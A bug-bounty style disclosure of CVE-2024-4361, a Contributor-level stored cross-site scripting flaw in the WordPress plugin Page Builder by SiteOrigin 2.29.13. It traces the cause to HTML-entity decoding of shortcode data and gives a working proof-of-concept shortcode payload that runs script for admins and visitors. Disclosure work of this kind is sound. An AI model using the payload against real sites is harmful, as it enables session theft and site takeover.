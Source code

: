 # Post Report Info

- Link: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/siteorigin-panels/page-builder-by-siteorigin-22915-authenticated-contributor-stored-cross-site-scripting-via-siteorigin-widget-shortcode
- CVE: 2024-4361
- Bounty: $325

# Page Builder by SiteOrigin Authenticated (Contributor+) Stored-XSS

The Page Builder by SiteOrigin version: 2.29.13 is vulnerable to an Authenticated (Contributor+) Stored-XSS attack via the `siteorigin_widget` shortcode.

## Affected Plugin

Title: Page Builder by SiteOrigin
Active installations: 700,000
Version: 2.29.13
Slug: siteorigin-panels
Link: https://wordpress.org/plugins/siteorigin-panels/

## Root Cause

In [inc/widget-shortcode.php](https://plugins.trac.wordpress.org/browser/siteorigin-panels/trunk/inc/widget-shortcode.php#L40) on line 40 `html_entity_decode` is used to decode the contents of a shortcode.

```php
$data = self::decode_data( $content );
```

Where the `decode_data` is as follows:

```php
public static function decode_data( $string ) {
    preg_match( '/value="([^"]*)"/', trim( $string ), $matches );

    if ( ! empty( $matches[1] ) ) {
        $data = json_decode( html_entity_decode( $matches[1], ENT_QUOTES ), true );

        return $data;
    } else {
        return array();
    }
}
```

This allows us to insert arbitrary HTML into the page by HTML and JSON encoding our payload. WordPress will prevent us from sending `<script>` tags but will not sanitized HTML or JSON encoded parameters, such as: `&lt;script&gt;`.

## Proof of Concept

1. Install and activate the plugin
2. As a Contributor level user add a new post and enter the following payload in the **code editor**:
```
[siteorigin_widget class="WP_Widget_Text"]
<div> 
<pre> value="{&quot;args&quot;:{&quot;before_widget&quot;:&quot;xxxbefore&quot;,&quot;before_title&quot;:&quot;&quot;,&quot;after_title&quot;:&quot;&quot;,&quot;test123&quot;:111},&quot;instance&quot;:{&quot;title&quot;:&quot;<b>alert(1)</b>&quot;,&quot;text&quot;:&quot;&lt;script&gt;alert(1)&lt;/script&gt;&quot;}}"</pre>
</div>
[/siteorigin_widget]
```
3. Submit for review an observe JavaScript execution on the preview.
4. This will execute against the admin when previewing the post and when published against website visitors to the page.